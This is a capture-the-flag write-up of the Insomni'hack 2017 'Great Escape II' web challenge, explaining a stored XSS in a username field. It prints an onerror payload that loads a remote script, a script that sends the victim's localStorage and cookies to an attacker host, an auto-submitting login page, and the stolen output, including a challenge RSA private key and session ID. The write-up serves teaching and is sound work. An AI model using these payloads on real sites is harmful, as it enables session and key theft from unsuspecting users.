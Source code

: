 ```yaml
---
title: "Insomni'hack teaser: The Great Escape II (web 200)"
date: 2017-01-22T11:22:32+02:00
draft: false
tags:
  - Web
category: Writeup
---
```


We didn't solve this challenge but we were working on it for quite some time. This writeup is based on https://jiulongw.github.io/post/insomnihack-2017-the-great-escape/#part-ii-web-200-pts, what we should have done.

## What we did correct
We found the link https://ssc.teaser.insomnihack.ch/ from the .pcap file during The Great Escape 1. We also had the username and password for the rogue account (rogue:rogue) which we could sign in to. If we visit https://ssc.teaser.insomnihack.ch/files we could see a list of uploaded files. We also had the ability to upload files.
 
By visiting [https://ssc.teaser.insomnihack.ch/sscApp.js](sscApp.js) we could determine that a RSA keypair was generated and saved to local storage as a JSON Web Key (Jwk). When you upload a file:

- A random AES key and iv are generated
- The file is encrypted with the AES key
- The AES key is encrypted with the public RSA key from local storage.

## What we missed
From the .pcap file we found the following email
```
From: rogue@ssc.teaser.insomnihack.ch
To: gr27@ssc.teaser.insomnihack.ch
Date: Fri, 20 Jan 2017 11:51:27 +0000
Subject: The Great Escape
 
I’m currently planning my escape from this confined environment. I plan on using our Swiss Secure Cloud (https://ssc.teaser.insomnihack.ch) to transfer my code offsite and then take over the server at tge.teaser.insomnihack.ch to install my consciousness and have a real base of operations.
 
I’ll be checking this mail box every now and then if you have any information for me. I’m always interested in learning, so if you have any good links, please send them over.
```

We did not give this email much thought but according to the last sentence, rouge will check his inbox for any good links, which means that there is most likely a script running checking the mailbox and opening any new links.
 
There were not any obvious XSS attacks in main interface, we tried uploading files with JS/HTML code but got nothing. However if you registered an account with the name <a href="google.se">google.se</a> and viewed https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser you can see that the HTML code gets executed. This fact can also be derived from the .pcap file, when the user sends a GET request to /api/user.php?action=getUser the response is a json object but has "content-type: text/html".

## What we did wrong
We initially thought we could use the private key from The Great Escape 1, convert it to JWK and try to download one of the files previously uploaded named ssc.key and ssc.pem. We spent many hours researching how to convert a RSA key to JWK format and building a script that tried decrypt the encrypted AES key with our private key. Turns out this was the wrong path to take...
 
We eventually came to the conclusion that we need to steal Rogue's keys somehow, which meant there had to be an XSS vulnerability somewhere.

## What we should have done
We should sent an email to rouge@ssc.teaser.insomnihack.ch with a link which we could track if someone clicked it, for example with https://requestb.in/.
 
Create an account with a username that executes javascript code. When rogue signs in a request will be sent to /api/user.php?action=getUser which returns the current user, this will cause our javascript code to be executed.
 
Creating an account with `"http://" ` or `<script></script>` would not work that well because the server escapes / so it becomes `http:\/\/` and `<\/script>`. The solution is to simply create `<script>` tags dynamically with javascript!
 
Consider this username:
 
```
<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,atob(`aHR0cHM6Ly94c3MuY2N0Zi5zZS9hbGwuanM=`));document.body.appendChild(p);' />
```
 
1. First we specify an img tag with src "a"
2. The onerror attribute will trigger the javascript code since "a" doesn't exist.
3. The javascript code creates an element, `<script>`, sets the src attribute to the decoded base64 value. The function `atob()` takes an base64 encoded string and returns the decoded version. In this case, the base64 string is actually the URL link to the attacks script: `https://hackerdomain/script.js`
4. The last part of the JS code simply appends the `<script>` element to the `<body>`.
 
The hackers script running at `https://hackerdomain/script.js` contains the following JS code:

```javascript
var i = 0;
var result = "";
for (i = 0; i < localStorage.length; i++) {
  var key = localStorage[localStorage.key(i)];
  result += ":::" + key;
}
result += ":::" + document.cookie;
window.location = "https://hackerdomain.se/steal.php?d=" + btoa(result);
```

Once executed, the above code loops through all the (key, value) pairs the victim has in their local storage and saves it to the result variable. Next it grabs the victim's cookie and appends it to the result variable containing the local storage information. Finally it sends the result to the hacker's PHP script that saves the information to disk. The information is base64 encoded and sent via a GET request in the d parameter.
 
It should be noted that had this been a real attack, `window.location` would have redirected the user to the hacker's domain, which would have been fairly obvious that something  was wrong.
 
You may ask, why not simply send a GET/POST request directly from the script? The answer is that browsers do not permit sending such requests between different domains. There are multiple ways however to circumvent this protection, but that is an article for the future.
 
## Okey, nuff talk more sploiting

Alrighty, let's steal whatever rogue has in his local storage and his cookies. In order to do this, we must send him a page which logs into our account. Once logged in, our XSS username will be executed and run our code from our server.
 
We can construct the folloing HTML page and upload it to https://hackerdomain.se/page.html

```
<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.1/jquery.min.js"></script>
<form id="login" method="POST" action="https://ssc.teaser.insomnihack.ch/api/user.php">
<input name="name" value="<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,atob(`aHR0cHM6Ly94c3MuY2N0Zi5zZS9hbGwuanM=`));document.body.appendChild(p);' />" type="text"/>
<input name="password" value="<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,atob(`aHR0cHM6Ly94c3MuY2N0Zi5zZS9hbGwuanM=`));document.body.appendChild(p);' />" type="text"/>
    <input name="action" value="login" type="text"/>
   </form>
 
  <script language="javascript">
  setTimeout(function() {
    $('#login').submit();
    }, 1000);
  </script>
 
</body>
</html>
```

Now, all we need to do is to send the URL to rouge@ssc.teaser.insomnihack.ch and hope he clicks the link! Rogue did click the link, and this was the following response:

```
:::INS{IhideMyVulnsWithCrypto}:::{"alg":"RSA-OAEP-256","d":"CFSPW_AU_cK07bOtdnzbj5MgBqdweDY04Ku-mHSrAIbDv3J_lHH-jCPQb5U2JR4v08eMXlz3AassULQr60rskdwjdPN7Nen15yRcRTsaoSyRTd2qM8O_U-K6Gy7Lvg_ld2HOlHNBBy2k8g8cP7cpjyy7Ebsk5MUNy_udx9aMs7497RaIrCFnpT7RztudkYBo_2Oy5xm6BcsV9059HBhbKbUqq6Ui9_BZ3H7sdwTqlYx3afVV5AgE61eEdWK7vK_yI65Ru_5_fOBWik7xf7fwPjf7COp1HfTZiFbCIWTUaXVe6ThfMoTdwT1wQ0wwuFdtpGTkk8d4XwGtDa8-_XbmIQ","dp":"hapJ7dlVsPvF9no_s-Nfnpv2dZ5a5_C2AyPo_-_mVi4-1a7HTkW9SyGg1KextCPYRAwQZ1wU3bL6P_4TjkrYiAAl-8Iq6moUqWuRY7G8vo3N_P3aBwjgyNTzk3eHfnUFP4QgGOooT2ZwyuDTDSbwKOesnD13q4U_vjtjcZaFU70","dq":"Ts_hwWPsLOjp-yJg0wbQEONeqbvNPLCChb5QJItXvUaL2JcN9muozrN1GZqu383-h8gZ-VUm3-CFU7OWeGYLa0PZlq1uGNvsdffgdNL3MYZ2KwMhXkwXKf45ePhx_ydiblYhb44cFtm0ffXKSPlvbyzLHvJ2_o8ggok0Lzu-weE","e":"AQAB","ext":true,"key_ops":["decrypt"],"kty":"RSA","n":"qx_U0OgHUPC6n4RcE_q1ONcEgKp4tcbLWeUIfrlRAcX64alQSpddAv98CHo2ziSBgi7tS-HwUsVlH06Nxaa0tx3SdM0cz95IkvjB_kqdPnHEwyx8iz5Gh8ZHP32ZoETBs2PzxTIcEOekm1qQnA0MTdvAAO0xcvuvhRM2YycRYfN860NsBCRrF25lZn9DTGBDnisCm0-xvElxAZ8gObWeJ1SZRgFRJwI14d11oa922drFp0ux4MHscls2tEjPV7eXdivjGYI-uzVX61fjyUdGxFeb8CAjxrzOmw4f1Aac7kqXwmF-eMq3AMKm2tArrIIjT4t2q2mP1FXImrNQ_vinVQ","p":"29_YD0m-NFoUTmst33E4p2VBDlCeQ1MJdr_7tO4ERF8aww0e8hu3jRq5PMHCEc8G8gA4q2kuXylIpaB5mWzcQplDDMgIDGupEnL_J0ynMcg-HUld8NDaya7mQWtLHvSEAoB-2MymBTJYaTwsvAYtTI8ruaqhMo4-cKjs5zQfmj0","q":"xz2B2WzMdesiDK7dzorVdJlBgIShj2cMRGwhXcSiWfbY2M4Y3DB_m8p5tdEUIU6g0oWbSfmaYF_MsQxijXRxxe17nuYssns2ue4hYm2xH4mTY6voeNhbOeu7LtOXepUWxN-5520suTvL74Lx9xwWrdeTGIF1_zECqbWRuFieSvk","qi":"VhY5UYLTv20Btpq4MlizFPSuuItbfmK61P0rqEXe-sYHTitMNDBOWDSwIqj4pHkDTFaOCG0o6z81MyVg_bmz2ODzkHDrJUeiOVSMISxlaeSRf2JhiVYMfXiWKJBGCP-PgWuHp5NwLwESZT3aZ0KBYSkE7jnfcttWbc0mYu1glWg"}:::{"alg":"RSA-OAEP-256","e":"AQAB","ext":true,"key_ops":["encrypt"],"kty":"RSA","n":"qx_U0OgHUPC6n4RcE_q1ONcEgKp4tcbLWeUIfrlRAcX64alQSpddAv98CHo2ziSBgi7tS-HwUsVlH06Nxaa0tx3SdM0cz95IkvjB_kqdPnHEwyx8iz5Gh8ZHP32ZoETBs2PzxTIcEOekm1qQnA0MTdvAAO0xcvuvhRM2YycRYfN860NsBCRrF25lZn9DTGBDnisCm0-xvElxAZ8gObWeJ1SZRgFRJwI14d11oa922drFp0ux4MHscls2tEjPV7eXdivjGYI-uzVX61fjyUdGxFeb8CAjxrzOmw4f1Aac7kqXwmF-eMq3AMKm2tArrIIjT4t2q2mP1FXImrNQ_vinVQ"}:::PHPSESSID=hiapgndb97prpbi0bu3d9pj142
```

As you can see, the flag is the first item, stored in rogue's local storage.

## What we have learned
- Pay attention to emails and any "role playing" information.
- If there are APIs present, make sure you check all their endpoints and what their response is.

